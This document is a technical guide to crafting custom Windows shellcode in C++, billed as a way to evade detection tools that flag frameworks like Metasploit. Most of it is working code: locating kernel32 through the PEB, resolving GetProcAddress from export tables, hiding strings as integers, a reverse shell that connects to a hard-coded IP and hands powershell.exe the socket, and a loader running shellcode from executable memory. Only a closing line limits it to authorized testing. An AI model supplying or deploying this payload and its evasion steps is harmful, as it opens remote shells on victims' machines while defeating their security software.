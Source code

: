 # Crafting Custom Windows Shellcode: A Technical Guide

## Introduction
This guide demonstrates how to create custom shellcode in C++ to bypass security tools that detect common frameworks like Metasploit. Custom shellcode offers unique signatures and greater control over payload behavior.

## Windows Memory Fundamentals

### Key Structures
- **PEB (Process Environment Block)**: User-accessible structure containing process information
  - Module lists
  - Process parameters
  - Security data

- **TEB (Thread Environment Block)**: Thread-specific data structure
  - Contains pointer to PEB
  - Accessed via FS/GS registers (FS for 32-bit, GS for 64-bit)

### Accessing the PEB
```cpp
// 64-bit
PPEB peb = (PPEB)__readgsqword(0x60);

// 32-bit 
PPEB peb = (PPEB)__readfsdword(0x30);
```

## Module Enumeration

### PEB_LDR_DATA Structure
```cpp
typedef struct _PEB_LDR_DATA {
    ULONG Length;
    UCHAR Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList; // Primary module list
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID EntryInProgress;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

### Finding Kernel32.dll
1. Located as third entry in module list:
   - First entry: Main executable
   - Second entry: ntdll.dll
   - Third entry: kernel32.dll

2. Code implementation:
```cpp
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(
    peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink,
    LDR_DATA_TABLE_ENTRY, 
    InMemoryOrderLinks
);
```

## PE Header Parsing

### Key Steps
1. Get DOS header from module base
2. Locate NT headers via e_lfanew
3. Access export directory
4. Parse function address/name tables

```cpp
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)moduleBase;
PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)dosHeader + dosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)(
    (BYTE*)dosHeader + 
    ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
);
```

## Function Resolution

### Finding GetProcAddress
1. Search export name table for "GetProcAddress"
2. Use ordinal to locate function address
3. Store as function pointer for later use

```cpp
uint64_t GetProcA = 0x41636F7250746547; // "GetProcA"

for (DWORD i = 0; i < exportDir->NumberOfNames; i++) {
    char* name = (char*)((BYTE*)dosHeader + nameTable[i]);
    if (*(uint64_t*)name == GetProcA) {
        GetProcAddress = (_GetProcAddress)(
            (BYTE*)dosHeader + 
            addressTable[ordinalTable[i]]
        );
        break;
    }
}
```

## String Obfuscation Technique

Store strings as little-endian 64-bit values:

```cpp
// "LoadLibraryA"
uint64_t LoadLibA_part1 = 0x7262694C64616F4C; // "LoadLibr"
uint64_t LoadLibA_part2 = 0x0000000041797261; // "aryA\0"

// "User32.dll" 
uint64_t User32_part1 = 0x642E323372657375; // "User32.d"
uint64_t User32_part2 = 0x0000000000006C6C; // "ll\0"
```

## Building a Reverse Shell

Key components:
1. Network initialization (WSAStartup)
2. Socket creation (WSASocketA)
3. Connection (WSAConnect)
4. Process creation (CreateProcessA)

```cpp
// Initialize Winsock
WSAStartup(MAKEWORD(2, 2), &wsadata);

// Create socket
SOCKET sock = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

// Connect to attacker
sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(2106); 
addr.sin_addr.s_addr = inet_addr("192.168.210.130");
WSAConnect(sock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL);

// Create reverse shell process
STARTUPINFO si = {0};
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

CreateProcessA(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```

## Shellcode Conversion Process

1. Compile in Release mode
2. Disable security cookies (/GS-)
3. Set breakpoint on payload function
4. Extract assembly from disassembly view
5. Convert to hex shellcode format

## Final Shellcode Execution

```cpp
unsigned char shellcode[] = "\x48\x89\x5C\x24\x20\x55\x56...";

PVOID execMem = VirtualAlloc(0, sizeof(shellcode), 
    MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);

memcpy(execMem, shellcode, sizeof(shellcode));

CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)execMem, NULL, 0, NULL);
```

## Key Advantages

1. **Evasion**: Unique code signature bypasses signature detection
2. **Control**: Fine-grained control over payload behavior
3. **Flexibility**: Can be adapted for various payload types
4. **Stealth**: No reliance on well-known frameworks

> **Important**: These techniques should only be used for authorized security testing and research purposes.
